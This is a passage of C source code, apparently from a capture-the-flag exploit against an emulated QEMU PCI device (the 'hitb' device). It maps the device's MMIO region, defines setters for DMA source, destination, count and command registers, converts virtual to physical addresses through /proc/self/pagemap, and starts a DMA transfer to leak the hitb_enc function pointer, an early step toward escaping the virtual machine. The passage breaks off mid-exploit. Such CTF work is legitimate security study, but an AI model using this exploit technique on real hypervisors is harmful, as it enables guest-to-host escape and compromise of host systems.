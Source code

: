     return *(int*)&mmio[0];
}

void set_dma_src( int val )
{
    *(int*)&mmio[0x80] = val;
}

void set_dma_dst( int val )
{
    *(int*)&mmio[0x88] = val;
}

void set_dma_cnt( int val )
{
    *(int*)&mmio[0x90] = val;
}

void set_dma_cmd( int val )
{
    *(int*)&mmio[0x98] = val;
}

int get_dma_cmd( void )
{
    return *(int*)&mmio[0x98];
}

size_t virt_to_phys( void* addr )
{
    int fd = open( "/proc/self/pagemap", O_RDONLY );

    size_t offset = (size_t)addr / getpagesize() * PAGEMAP_LENGTH;
    lseek( fd, offset, SEEK_SET );

    size_t page_frame_number = 0;
    read( fd, &page_frame_number, PAGEMAP_LENGTH );

    page_frame_number &= 0x7FFFFFFFFFFFFF;
    // mask off the 12 most significant bits because they
    // are used for flags
 
    close( fd );

    return ( page_frame_number << 12 ) | ( (size_t)addr & 0xfff );
}

int main( void )
{
    mmio = devmap( mmio_addr );
    if ( !mmio ) {
        return 0;
    }

    // Allocate a buffer to use for physical memory access as tmp space
    size_t* va = mmap( NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS, 0, 0 );

    // Force access to it so the CPU allocs physical memory for it
    memset( va, 0xcc, 0x1000 );
    printf( "va: %p\n", (void*)va );

    // Get the physical address from /proc/self/pagemap
    size_t phys_dst = virt_to_phys( va );
    printf( "pa: %p\n", (void*)phys_dst );

    // Copy the hitb_enc function pointer to our allocated memory
    // using cpu_physical_memory_rw(dma.src, &hitb_enc, is_read)
    // this way we are using the above function as copy from VA to PA
    set_dma_cnt( 8 );
    set_dma_src( 0x40000 + 0x1000 ); // hitb_enc pointer offset
    set_dma_dst( phys_dst );